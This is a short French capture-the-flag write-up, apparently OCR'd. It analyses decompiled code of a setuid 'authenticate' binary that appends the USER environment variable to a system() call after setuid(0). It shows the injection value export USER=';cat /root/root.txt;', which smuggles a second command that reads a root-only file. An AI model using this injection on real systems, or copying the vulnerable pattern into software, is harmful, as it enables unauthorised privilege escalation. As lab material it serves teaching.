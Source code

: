 ```cpp
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

```cpp
 if ((int)__uid < 1000) {
    puts("You need to be a real user to be authenticated.");
  }
```
Le programme récupère l'id du processus si est elle inferieur à 1000 c'est pas bon. 

```cpp
 iVar1 = system("groups | grep developer");
    if (iVar1 == 0) {
      puts("You are already a developer.");
    }
```
Il y a une vérifcation sur on n'appartient pas au group developer.  

```cpp
      __src = getenv("USER");
```
Il récupère la variable d'environnemnt USER. 

```cpp
      setuid(0);
```
Il passe en setuid 0 c'est dir avec les droits root.    

```cpp
      strncat((char *)&local_48,__src,0x14);
      system((char *)&local_48);
```
Il récupère le nom d'utilisateur dans la variable d'environnement, il y pas de vérification si on lui passe une commande.    

```bash
export USER=';cat /root/root.txt;'
```

Si vous avez déja exécuter authentiface redémarrer session.  

```bash
$ ./authenticate
Usage: usermod [options] LOGIN

Options:
  -c, --comment COMMENT         new value of the GECOS field
  -d, --home HOME_DIR           new home directory for the user account
  -e, --expiredate EXPIRE_DATE  set account expiration date to EXPIRE_DATE
  -f, --inactive INACTIVE       set password inactive after expiration
                                to INACTIVE
  -g, --gid GROUP               force use GROUP as new primary group
  -G, --groups GROUPS           new list of supplementary GROUPS
  -a, --append                  append the user to the supplemental GROUPS
                                mentioned by the -G option without removing
                                him/her from other groups
  -h, --help                    display this help message and exit
  -l, --login NEW_LOGIN         new value of the login name
  -L, --lock                    lock the user account
  -m, --move-home               move contents of the home directory to the
                                new location (use only with -d)
  -o, --non-unique              allow using duplicate (non-unique) UID
  -p, --password PASSWORD       use encrypted password for the new password
  -R, --root CHROOT_DIR         directory to chroot into
  -s, --shell SHELL             new login shell for the user account
```